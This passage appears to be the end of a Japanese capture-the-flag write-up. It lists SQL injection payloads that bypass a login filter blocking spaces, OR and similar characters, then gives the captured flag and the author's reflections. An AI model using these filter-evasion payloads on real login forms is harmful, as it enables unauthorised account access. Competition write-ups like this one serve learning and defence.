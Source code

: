 `' or 1=1 #` 定番。スペースとシャープとイコールとORで引っかかります。  
`'or(1=1)#` スペースなしで出来ました  
`'IN('Tokyo')#` #だけでできるようになりました  
`'IN('Tokyo')order by 'Tokyo'` orが入っています  
`'IN('Tokyo')and!'0'` これで通りました。 -> `SELECT username from users where username='admin' and password=''IN('Tokyo')and!'0'`  
流れとしては、まずは禁止文字を使って、徐々に禁止文字の種類を減らすように頑張っていくとよさそうです。  
`KosenCTF{Smash_the_holy_barrier_and_follow_me_in_the_covenant_of_blood_and_blood}`  
# 最後に  
もっともっと精進して、一つでも多くのflagを速く通せるようにがんばりたいです。悔しいです。  
作問者はすごい人々だなあと思いました。ツールゲーではなく、頭をひねるものが多くてとても楽しかったです。ありがとうございました。